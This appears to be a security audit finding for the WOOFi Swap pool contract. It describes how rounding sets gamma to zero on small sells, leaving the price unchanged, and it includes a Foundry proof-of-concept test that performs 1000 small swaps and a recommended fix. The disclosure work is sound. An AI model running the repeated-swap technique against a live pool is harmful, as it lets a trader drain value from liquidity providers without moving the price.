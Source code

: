 Icy Denim Cougar

medium

# Swaps can happen without changing the price for the next trade due to gamma = 0

## Summary
When a swap happens in WoofiPool the price is updated accordingly respect to such value "gamma". However, there are some cases where the swap results to a "gamma" value of "0" which will not change the new price for the next trade. 
## Vulnerability Detail
This is how the quote token received and new price is calculated when given amount of base tokens are sold to the pool:
```solidity
function _calcQuoteAmountSellBase(
        address baseToken,
        uint256 baseAmount,
        IWooracleV2.State memory state
    ) private view returns (uint256 quoteAmount, uint256 newPrice) {
        require(state.woFeasible, "WooPPV2: !ORACLE_FEASIBLE");

        DecimalInfo memory decs = decimalInfo(baseToken);

        // gamma = k * price * base_amount; and decimal 18
        uint256 gamma;
        {
            uint256 notionalSwap = (baseAmount * state.price * decs.quoteDec) / decs.baseDec / decs.priceDec;
            require(notionalSwap <= tokenInfos[baseToken].maxNotionalSwap, "WooPPV2: !maxNotionalValue");

            gamma = (baseAmount * state.price * state.coeff) / decs.priceDec / decs.baseDec;
            require(gamma <= tokenInfos[baseToken].maxGamma, "WooPPV2: !gamma");

            // Formula: quoteAmount = baseAmount * oracle.price * (1 - oracle.k * baseAmount * oracle.price - oracle.spread)
            quoteAmount =
                (((baseAmount * state.price * decs.quoteDec) / decs.priceDec) *
                    (uint256(1e18) - gamma - state.spread)) /
                1e18 /
                decs.baseDec;
        }

        // newPrice = oracle.price * (1 - k * oracle.price * baseAmount)
        newPrice = ((uint256(1e18) - gamma) * state.price) / 1e18;
    }
```

Now, let's assume:
DAI is quoteToken, 18 decimals
tokenX is baseToken which has a price of 0.01 DAI, 18 decimals 
coefficient = 0.000000001 * 1e18
spread = 0.001 * 1e18
baseAmount (amount of tokenX are sold) = 1e10;

first calculate the `gamma`:
(baseAmount * state.price * state.coeff) / decs.priceDec / decs.baseDec;
= 1e10 * 0.01 * 1e8 * 0.000000001 * 1e18 / 1e8 / 1e18
= 0 due to round down

let's calculate the `quoteAmount` will be received:
quoteAmount =
                (((baseAmount * state.price * decs.quoteDec) / decs.priceDec) *
                    (uint256(1e18) - gamma - state.spread)) /
                1e18 /
                decs.baseDec;
(1e10 * 0.01 * 1e8 * 1e18 / 1e8) * (1e18 - 0 - 0.01 * 1e18) / 1e18 / 1e18
= 99900000 which is not "0". 

let's calculate the new price:
newPrice = ((uint256(1e18) - gamma) * state.price) / 1e18;
= (1e18 - 0) * 0.01 * 1e8 / 1e18 = 0.01 * 1e8
**which is the same price, no price changes!** 

That would also means if the "gamma" is "0", then this is the best possible swap outcome. If a user does this in a for loop multiple times in a cheap network, user can trade significant amount of tokens without changing the price. 

**Coded PoC (values are the same as in the above textual scenario):**
```solidity
function test_SwapsHappenPriceIsNotUpdatedDueToRoundDown() public {
        // USDC --> DAI address, mind the naming..
        uint usdcAmount = 1_000_000 * 1e18;
        uint wooAmount = 100_000 * 1e18;
        uint wethAmount = 1_000 * 1e18;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, wooAmount);
        deal(WETH, ADMIN, wethAmount);

        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        IERC20(WETH).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        pool.depositAll(WETH);
        vm.stopPrank();

        uint wooAmountForTapir = 1e10 * 1000;
        vm.startPrank(TAPIR);
        deal(WOO, TAPIR, wooAmountForTapir);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        IERC20(WETH).approve(address(router), type(uint256).max);
        vm.stopPrank();

        // WHERE THE MAGIC HAPPENS
        (uint128 price, ) = oracle.woPrice(WOO);
        console.log("price", price);
        
        uint cumulative;
        for (uint i = 0; i < 1000; ++i) {
            vm.prank(TAPIR);
            cumulative += router.swap(WOO, USDC, wooAmountForTapir / 1000, 0, payable(TAPIR), TAPIR);
        }

        (uint128 newPrice, ) = oracle.woPrice(WOO);
        console.log("price", price);

        // price hasnt changed although there are significant amount of tokens are being traded by TAPIR
        assertEq(newPrice, price);
    }
```
## Impact
As by design, the price should change after every trade irrelevant of the amount that is being traded. Also, in a cheap network the attack can be quite realistic. Hence, I'll label this as medium. 
## Code Snippet
https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L420-L465

https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L591-L619
## Tool used

Manual Review

## Recommendation
if the "gamma" is "0", then revert. 